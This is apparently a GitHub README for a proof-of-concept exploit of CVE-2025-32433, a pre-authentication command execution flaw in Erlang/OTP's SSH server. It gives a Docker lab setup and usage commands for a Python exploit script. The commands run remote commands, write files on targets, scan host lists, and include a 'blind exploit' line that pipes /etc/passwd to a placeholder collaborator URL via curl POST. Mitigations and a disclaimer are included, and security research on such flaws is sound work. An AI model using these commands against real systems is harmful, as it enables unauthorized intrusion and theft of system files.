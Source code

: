 # CVE-2025-32433: Erlang SSH Server Pre-Authentication Command Execution

![Header Image Placeholder](img/header.png)

## Overview
This repository contains a proof-of-concept (PoC) for CVE-2025-32433, a vulnerability in the Erlang SSH server implementation that allows for pre-authentication command execution. The vulnerability affects Erlang/OTP versions 26.2.5.10 and potentially earlier versions.

## Technical Details
The vulnerability exists in the Erlang SSH server implementation, specifically in the handling of SSH connections and authentication mechanisms. The server accepts and processes SSH_MSG_CHANNEL_REQUEST messages before authentication is completed, allowing for arbitrary command execution.

### Affected Versions
- Erlang/OTP 26.2.5.10
- Potentially earlier versions

### Vulnerability Type
- Pre-authentication Command Execution
- CWE-306: Missing Authentication for Critical Function

## Setup Instructions

### Prerequisites
- 🐍 Python 3.x
- 🐳 Docker
- 🐳 Docker Compose

### Building the Vulnerable Environment
```bash
# Clone the repository
git clone https://github.com/Vip3r-MC/VulnVault.git
cd CVE-2025-32433

# Build and start the vulnerable server
docker-compose up --build
```

The vulnerable SSH server will be accessible on port 2222.

## Testing the Vulnerability

### Using the Python Exploit
Use the CVE-2025-32433.py script to test or exploit the SSH vulnerability:

```bash
python3 CVE-2025-32433.py -H <host> [-p <port>] [-t <timeout>] [-v] [-T <targets_file>] [-c <command> | -f --path <path> --content <content>]
```

Example Usage:
- **Scan a single host on default port (2222):**
```bash
python3 CVE-2025-32433.py -H 192.168.1.10
```

- **Specify a different SSH port (e.g., 2022):**
```bash
python3 CVE-2025-32433.py -H 192.168.1.10 -p 2022
```

- Run a custom command:
```bash
python3 CVE-2025-32433.py -H 192.168.1.10 -c "whoami"
```

- **Write a file to a remote path with custom content:**
```bash
python3 CVE-2025-32433.py -H 192.168.1.10 -f --path /tmp/pwned.txt --content "exploit successful"
```

- **Blind Exploit (command below):**
This blind exploit example demonstrates a remote code execution that sends `/etc/passwd` to a remote server via `curl`. The command captures the contents of `/etc/passwd` and sends it as a POST request to a collaborator URL.
```bash
python3 CVE-2025-32433.py -c "cat /etc/passwd | tee /dev/stderr | curl -X POST https://<collaborator-url>/exploit --data-binary @-" -H 127.0.0.1
```

- **Scan multiple targets from a list:**
```bash
python3 CVE-2025-32433.py -T targets.txt
```

- **Verbose output for debugging:**
```bash
python3 CVE-2025-32433.py -H 192.168.1.10 -v
```

### Command Line Options
- `-H, --host`: Target host IP or domain (default: localhost)
- `-p, --port`: Target SSH port (default: 2222)
- `-t, --timeout`: Connection timeout in seconds (default: 5)
- `-T, --targets`: File containing list of targets (one per line, format: host[:port]).
- `-v, --verbose`: Enable verbose output
- `-c, --command`: Custom command to execute
- `-f, --file`: Enable file writing mode.
- `--path`: Path on target to write the file (default: /test.txt).
- `--content`: Content to write into the file (default: pwned).

## Expected Behavior
- The SSH server should accept connection attempts
- The server will process commands before authentication
- All commands will be executed with the privileges of the Erlang process
- The server will respond with command output or error messages

## Mitigation
- Update to the latest version of Erlang/OTP
- Implement proper authentication checks before processing commands
- Restrict SSH access to trusted networks only
- Monitor for unauthorized access attempts

## Disclaimer
> [!CAUTION]
> This PoC is provided for educational and research purposes only. Use it responsibly and only in controlled environments. The authors are not responsible for any misuse or damage caused by this code.

## References
- [CVE-2025-32433 Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-32433)
- [Erlang/OTP Security Advisory](https://www.erlang.org/security)
- [Original PoC](https://platformsecurity.com/blog/CVE-2025-32433-poc)
